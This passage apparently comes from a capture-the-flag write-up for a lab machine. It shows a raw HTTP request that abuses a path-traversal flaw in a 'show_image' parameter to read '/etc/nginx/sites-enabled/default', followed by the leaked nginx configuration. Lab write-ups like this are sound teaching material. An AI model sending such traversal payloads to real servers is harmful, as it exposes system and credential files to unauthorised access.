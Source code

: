 ```text
#
#	server {
#		listen     localhost:143;
#		protocol   imap;
#		proxy      on;
#	}
#}
```

Lets get the default config.

```text
GET http://10.10.11.204:8080/show_image?img=../../../../../../etc/nginx/sites-enabled/default HTTP/1.1
Host: 10.10.11.204:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Length: 0
```

```text
##
# You should look at the following URL's in order to grasp a solid understanding
# of Nginx configuration files in order to fully unleash the power of Nginx.
# https://www.nginx.com/resources/wiki/start/
# https://www.nginx.com/resources/wiki/start/topics/tutorials/config_pitfalls/
# https://wiki.debian.org/Nginx/DirectoryStructure
#
# In most cases, administrators will remove this file from sites-enabled/ and
# leave it as reference inside of sites-available where it will continue to be
# updated by the nginx packaging team.
#
# This file will automatically load configuration files provided by other
# applications, such as Drupal or Wordpress. These applications will be made
# available underneath a path with that package name, such as /drupal8.
#
# Please see /usr/share/doc/nginx-doc/examples/ for more detailed examples.
##

# Default server configuration
#
server {
	listen 80 default_server;
	listen [::]:80 default_server;

	# SSL configuration
	#
	# listen 443 ssl default_server;
	# listen [::]:443 ssl default_server;
	#
	# Note: You should disable gzip for SSL traffic.
	# See: https://bugs.debian.org/773332
	#
	# Read up on ssl_ciphers to ensure a secure configuration.
	# See: https://bugs.debian.org/765782
	#
	# Self signed certs generated by the ssl-cert package
	# Don't use them in a production server!
```

[^fn:1]: Exploit i used
[^fn:2]: <https://github.com/DominicBreuker/pspy>